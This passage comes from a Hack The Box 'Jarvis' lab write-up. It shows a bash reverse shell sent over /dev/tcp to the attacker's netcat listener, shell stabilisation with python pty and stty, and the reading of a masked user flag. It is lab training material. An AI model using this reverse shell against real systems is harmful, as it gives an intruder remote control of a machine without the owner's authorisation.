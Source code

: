 I get no output in this shell, so I need to spawn a reverse shell:

```bash
pepper@jarvis:/var/www/html$ bash -i >& /dev/tcp/10.10.16.7/5555 0>&1
```

When looking at the netcat listener, I see that the shell as pepper spawned:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/jarvis]
└─$ nc -lvnp 5555 
listening on [any] 5555 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.143] 38590
pepper@jarvis:/var/www/html$ id
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:/var/www/html$
```

Before collecting the flag, I stabilize this shell:

```bash
pepper@jarvis:/var/www/html$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
pepper@jarvis:/var/www/html$ export TERM=xterm
export TERM=xterm
pepper@jarvis:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 5555

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/jarvis]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 5555

pepper@jarvis:/var/www/html$ ^C
```

Shortcuts like ^C and ^L are now working fine without crashing the shell.

### User Flag

---

It's time to grab the user flag:

```bash
pepper@jarvis:/var/www/html$ cd /home/pepper/
pepper@jarvis:~$ ls
Web  user.txt
pepper@jarvis:~$ cat user.txt
2a**************************c44f
```

## Privesc (Root)

---
